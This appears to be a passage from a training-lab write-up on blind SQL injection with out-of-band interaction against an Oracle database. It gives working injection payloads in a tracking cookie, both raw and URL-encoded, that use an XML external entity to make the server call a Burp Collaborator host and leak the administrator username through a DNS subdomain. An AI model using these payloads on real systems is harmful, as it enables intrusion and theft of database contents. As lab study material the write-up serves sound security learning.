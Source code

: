 Verify the database type (Use the previous lab queries cheat sheet)

```
Cookie: TrackingId=x'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP_COLABORATOR_SUBDOMAIN/">+%25remote%3b]>'),'/1')+FROM+dual--;
```

There are ************************Interactions************************ on the ******************Poll Collaborator******************’s table

![Untitled](Blind%20SQL%20Injection%20with%20out-of-band%20images/Untitled%203.png)

⇒ The server is using ************Oracle************ database

Verify the username `administrator` with the `SELECT` statement stands front of the `BURP COLLABORATOR SUB-DOMAIN` concatenated by the `||` symbols

```
'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT username FROM users WHERE username='administrator')||'.0uvomq4qyyjpbhtif1krrlz970dr1g.oastify.com/"> %remote;]>'),'/1') FROM dual--
```

Which would be `URL encoded` as:

```
44BKSFxzZvYM8P7C'UNION%20SELECT%20EXTRACTVALUE(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20%5b%3c!ENTITY%20%25%20remote%20SYSTEM%20%22http%3a%2f%2f'%7c%7c(SELECT%20username%20FROM%20users%20WHERE%20username%3d'administrator')%7c%7c'.0uvomq4qyyjpbhtif1krrlz970dr1g.oastify.com%2f%22%3e%20%25remote%3b%5d%3e')%2c'%2f1')%20FROM%20dual--
```

Check the ************************Interactions************************ Table → Verify that the username `administrator` exists

![Untitled](Blind%20SQL%20Injection%20with%20out-of-band%20images/Untitled%204.png)
